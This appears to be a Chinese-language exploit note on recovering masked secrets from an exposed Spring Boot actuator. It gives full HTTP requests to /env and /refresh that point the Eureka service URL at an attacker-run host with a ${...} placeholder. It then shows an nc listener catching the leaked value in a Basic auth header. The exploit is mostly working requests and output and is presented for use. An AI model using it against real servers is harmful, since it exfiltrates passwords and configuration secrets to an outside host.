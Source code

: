 # SpringBoot env 获取* 敏感信息 (一)

当我们直接访问 springboot 站点时,可以看到某些 password 字段填充了*

通过${name} 可以获取明文字段

参考 `https://mp.weixin.qq.com/s/HmGEYRcf1hSVw9Uu9XHGsA`

具体实现过程:

例如: 我们要获取 pid 参数值

```
"PID": "10648",
```


```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

eureka.client.serviceUrl.defaultZone=http://${PID}@10.20.24.191:2444/

```
然后 post refresh 任意内容,触发漏洞

Ps: `一般情况需要等待3秒会有响应包，如果立即返回可能是服务缺少spring-boot-starter-actuator扩展包无法刷新漏洞则无法利用`

```
POST /refresh HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

12312
```

当服务器 nc 监听端口4444 时,接受到


```
root@kali:/tmp# nc -lvvp 2444
listening on [any] 2444 ...
connect to [10.20.24.191] from kali [10.20.24.191] 40960
GET /xstream/apps/ HTTP/1.1
Accept: application/json
DiscoveryIdentity-Name: DefaultClient
DiscoveryIdentity-Version: 1.4
DiscoveryIdentity-Id: 10.20.24.191
Accept-Encoding: gzip
Host: 10.20.24.191:2444
Connection: Keep-Alive
User-Agent: Java-EurekaClient/v1.4.11
Authorization: Basic MzgzNDY6bnVsbA==
```

